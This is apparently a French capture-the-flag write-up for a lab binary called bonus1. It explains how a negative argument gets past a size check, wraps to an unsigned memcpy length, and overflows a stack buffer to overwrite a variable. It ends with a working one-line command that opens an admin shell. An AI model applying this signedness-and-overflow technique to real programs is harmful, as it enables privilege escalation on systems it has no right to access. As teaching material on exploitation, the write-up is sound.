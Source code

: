 bonus1:
Il y a une seule fonction main qui prend deux arguments. Le premier argument est atoi pour être assigné à un int (i). Pour accéder au shell admin, il faut que i soit d'abord < 10, puis == 0x574f4c46 (1464814662 en décimal).

Après le premier check, un memcpy est utilisé, avec le nombre de byte copié = i * 4 (il est très important de noter que i est converti en uint par memcpy). On peut alors utiliser un overflow pour réécrire i et passer le second check, puisque i est à l'adresse 0x3c(%esp) et le buffer est à l'adresse 0x14(%esp).

A noter qu'il faudra que i soit assez grand pour allouer 44 caractères (0x3c - 0x14 = 0x28, 40 en décimal + 4 charactères qui équivalent 0x574f4c46)
```
0x08048464 <+64>:    lea    0x14(%esp),%eax
0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
```
On peut utiliser un nombre négatif pour bypass le premier check. Si on mets par exemple
```
i = atoi("-10");
// valeur "réelle" de i
printf("%i\n", i * 4); // = -40
// valeur de i converti en unsigned
printf("%u\n", i * 4); // = 4294967256
```

4294967256 est bien au-delà de la limite max d'un int (2147483647) et le programme segfault. Il faut descendre dans les chiffres négatifs jusqu'à avoir un bon nombre.
Si on essaie directement la valeur négative max on obtient
```
i = atoi("-2147483648");
printf("%i\n", i * 4); //= 0
printf("%u\n", i * 4); //= 0
```

On peut remonter un peu : -2147483628

```
i = atoi("-2147483628");
printf("%i\n", i * 4); //= 80
printf("%u\n", i * 4); //= 80
```

Il nous reste juste à ajouter la valeur en little endian pour passer le check.

On peut donc ouvrir un shell admin avec cette commande:

`./bonus1 -2147483628 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`
